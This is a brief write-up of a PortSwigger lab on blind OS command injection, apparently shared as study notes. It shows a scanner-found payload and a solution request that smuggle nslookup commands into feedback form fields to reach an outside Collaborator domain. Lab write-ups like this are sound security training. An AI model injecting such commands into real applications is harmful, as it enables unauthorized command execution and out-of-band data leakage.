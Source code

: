 # [Lab: Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)

## Lab

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

## Scan

- burpsuite scanner detected:
  - `OS command injection` (decoded body):

    ```http
    POST /feedback/submit HTTP/1.1

    csrf=tULukXgpdrLyKzl2ILNmkpm0qagGYuQN&name=test&email=test@test.test&subject=test&message=test&nslookup -q=cname bgvvxzovrarm6f3cap1xp0d9309r0fq3lrchzanz.oastify.com.&'\"`0&nslookup -q=cname bgvvxzovrarm6f3cap1xp0d9309r0fq3lrchzanz.oastify.com.&`'
    ```

    - The application performed a DNS lookup for the specified domain name.

## Solutions

```http
POST /feedback/submit HTTP/1.1

csrf=3CIukkLS6M6bb4r3ZASy5SntsuZTMioo&name=test&email=a||nslookup+collaborator||&subject=test&message=test
```
